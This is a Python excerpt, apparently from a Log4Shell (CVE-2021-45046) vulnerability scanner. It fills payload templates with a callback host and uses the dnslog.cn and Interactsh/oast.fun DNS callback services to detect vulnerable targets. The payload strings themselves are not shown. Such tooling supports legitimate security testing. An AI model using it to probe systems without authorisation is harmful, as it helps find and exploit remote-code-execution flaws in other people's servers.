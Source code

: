   ```python
  def get_cve_2021_45046_payloads(callback_host, random_string):
      payloads = []
      for i in cve_2021_45046:
          new_payload = i.replace("{{callback_host}}", callback_host)
          new_payload = new_payload.replace("{{random}}", random_string)
          payloads.append(new_payload)
      return payloads
  
  
  class Dnslog(object):
      def __init__(self):
          self.s = requests.session()
          req = self.s.get("http://www.dnslog.cn/getdomain.php",
                           proxies=proxies,
                           timeout=30)
          self.domain = req.text
  
      def pull_logs(self):
          req = self.s.get("http://www.dnslog.cn/getrecords.php",
                           proxies=proxies,
                           timeout=30)
          return req.json()
  
  
  class Interactsh:
      # Source: https://github.com/knownsec/pocsuite3/blob/master/pocsuite3/modules/interactsh/__init__.py
      def __init__(self, token="", server=""):
          rsa = RSA.generate(2048)
          self.public_key = rsa.publickey().exportKey()
          self.private_key = rsa.exportKey()
          self.token = token
          self.server = server.lstrip('.') or 'oast.fun'
          self.headers = {
              "Content-Type": "application/json",
          }
          if self.token:
              self.headers['Authorization'] = self.token
          self.secret = str(uuid4())
          self.encoded = b64encode(self.public_key).decode("utf8")
          guid = uuid4().hex.ljust(33, 'a')
          guid = ''.join(i if i.isdigit() else chr(
              ord(i) + random.randint(0, 20)) for i in guid)
          self.domain = f'{guid}.{self.server}'
          self.correlation_id = self.domain[:20]
  
          self.session = requests.session()
          self.session.headers = self.headers
          self.session.verify = False
          self.session.proxies = proxies
          self.register()
  
      def register(self):
          data = {
              "public-key": self.encoded,
              "secret-key": self.secret,
              "correlation-id": self.correlation_id
          }
          protocol = 'http' if args.disable_tls_to_register_dns else 'https'
          res = self.session.post(
              f"{protocol}://{self.server}/register", headers=self.headers, json=data, timeout=30)
          if 'success' not in res.text:
              raise Exception("Can not initiate oast.fun DNS callback client")
  ```